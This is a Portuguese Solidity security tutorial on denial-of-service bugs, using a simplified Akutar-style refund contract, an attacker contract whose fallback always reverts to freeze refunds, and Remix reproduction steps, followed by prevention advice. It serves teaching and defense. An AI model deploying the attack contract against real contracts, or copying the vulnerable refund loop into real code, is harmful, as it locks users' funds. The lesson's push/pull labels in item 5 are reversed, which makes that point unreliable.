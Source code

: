 ```yaml
---
title: S09. Negando Serviço
tags:
  - solidity
  - segurança
  - fallback
---
```


# Segurança de Contratos Inteligentes, WTF Solidity: S09. Negando Serviço

Recentemente, eu tenho revisado meus conhecimentos em solidity para consolidar detalhes sobre a linguagem e criar um guia "WTF Solidity: Introdução Básica" para pessoas iniciantes (esse guia não é para pessoas que já são especialistas em programação). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Todo o código e os tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos discutir a vulnerabilidade de negação de serviço (DoS) em contratos inteligentes e abordar maneiras de evitar esse tipo de problema. O projeto de NFTs Akutar perdeu 11.539 ETH, o que correspondia a aproximadamente 34 milhões de dólares na época, devido a um bug de DoS.

## DoS

No contexto da Web 2.0, um ataque de negação de serviço (DoS) ocorre quando um servidor é interrompido e não consegue fornecer serviços aos usuários legítimos devido ao envio de grande volume de lixo de informações ou interferências de informações pelo atacante. No Web3, uma DoS em contrato inteligente ocorre quando uma vulnerabilidade é explorada de forma que o contrato não consiga funcionar corretamente.

Em abril de 2022, um projeto de NFT chamado Akutar utilizou um leilão holandês para distribuição de tokens e arrecadou 11.539,5 ETH, tornando-se um grande sucesso. Anteriormente, os participantes da comunidade que possuíam o "Pass" desse projeto deveriam receber 0,5 ETH de reembolso. No entanto, quando eles tentaram processar os reembolsos, descobriram que o contrato inteligente tinha um bug de negação de serviço e todos os fundos ficaram presos. O contrato do Akutar tinha uma vulnerabilidade de DoS.

![](./img/S09-1.png)

## Exemplo de Vulnerabilidade

Abaixo, vamos examinar um contrato chamado `DoSGame` que representa uma versão simplificada do contrato do Akutar. A lógica desse contrato é bastante simples: quando o jogo começa, os jogadores fazem chamadas à função `deposit()` para depositar seus tokens ETH e o contrato registra seus endereços e saldos correspondentes. Quando o jogo termina, a função `refund()` é chamada para reembolsar os jogadores com seus ETH.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// Jogo com vulnerabilidade de DoS - os jogadores fazem depósitos e, quando o jogo termina, recebem seus reembolsos
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // Todos os jogadores fazem depósitos no contrato
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Registra o saldo do jogador
        balanceOf[msg.sender] = msg.value;
        // Registra os endereços dos jogadores
        players.push(msg.sender);
    }

    // O jogo termina, os reembolsos começam a ser processados sequencialmente
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Reembolsa todos os jogadores em um loop
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

O bug nesse contrato está na função `refund()`. Quando os reembolsos são processados sequencialmente em um loop e a função `call` é utilizada para transferir os ETHs de volta para os jogadores, isso permite que um endereço malicioso execute algum código mal-intencionado em seu contrato durante esse processo.

```
(bool success, ) = player.call{value: refundETH}("");
```

Em seguida, escrevemos um contrato de ataque em que a função `attack()` permite que o endereço malicioso faça um depósito e participe do jogo. A função `fallback()` é uma função de retorno que rejeita todas as transações enviadas para o contrato, atacando a vulnerabilidade de DoS do contrato `DoSGame`. Isso ocorre porque a sequência de reembolsos não pode ser executada corretamente e os fundos ficarão presos no contrato, assim como os mais de 10.000 ETHs no contrato Akutar.

```solidity
contract Attack {
    // Ataque DoS quando os reembolsos são processados
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participa do jogo DoS e faz um depósito
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reprodução no Remix

**1.** Implante o contrato `DoSGame`.
**2.** Chame a função `deposit()` do contrato `DoSGame` para depositar e participar do jogo.
![](./img/S09-2.png)
**3.** Neste ponto, se você chamar a função `refund()` do contrato `DoSGame`, você receberá um reembolso normalmente.
！[](./img/S09-3.jpg)
**4.** Implante novamente o contrato `DoSGame` e implante o contrato `Attack`.
**5.** Chame a função `attack()` do contrato `Attack` para fazer um depósito e participar do jogo.
！[](./img/S09-4.jpg)
**6.** Chame a função `refund()` do contrato `DoSGame` para receber um reembolso e descubra que a transação não é bem sucedida, pois o ataque teve êxito.
！[](./img/S09-5.jpg)

## Medidas Preventivas

Vários erros lógicos podem levar a um DoS em um contrato inteligente, portanto, os desenvolvedores devem ter muito cuidado ao escrever contratos. Abaixo estão algumas áreas que requerem especial atenção:

1. Falhas na chamada de funções de contratos externos (por exemplo, `call`) não devem bloquear recursos importantes. Por exemplo, é possível remover a linha `require(success, "Refund Fail!");` do contrato que possui a falha para que o reembolso se prossiga mesmo se uma única transação falhar.
2. O contrato não deve se auto-destruir inesperadamente.
3. O contrato não deve entrar em loops infinitos.
4. Os parâmetros das funções `require` e `assert` devem ser definidos corretamente.
5. No processo de reembolso, é recomendável permitir que os usuários retirem os fundos por conta própria (push), em vez de realizar um envio em massa de fundos (pull).
6. Verifique se as funções de retorno (fallback) não afetam o funcionamento normal do contrato.
7. Certifique-se de que as principais funcionalidades do contrato ainda possam ser executadas mesmo que o envolvimento dos participantes (como o `owner`) nunca aconteça.

## Conclusão

Nesta lição, falamos sobre a vulnerabilidade de negação de serviço em contratos inteligentes. O projeto Akutar perdeu mais de 10.000 ETHs devido a essa vulnerabilidade. Vários erros lógicos podem levar a DoS, então os desenvolvedores precisam ter muito cuidado ao escrever contratos inteligentes, como permitir que os usuários cliem os seus próprios reembolsos ao invés de realizar um envio em massa de fundos para eles.

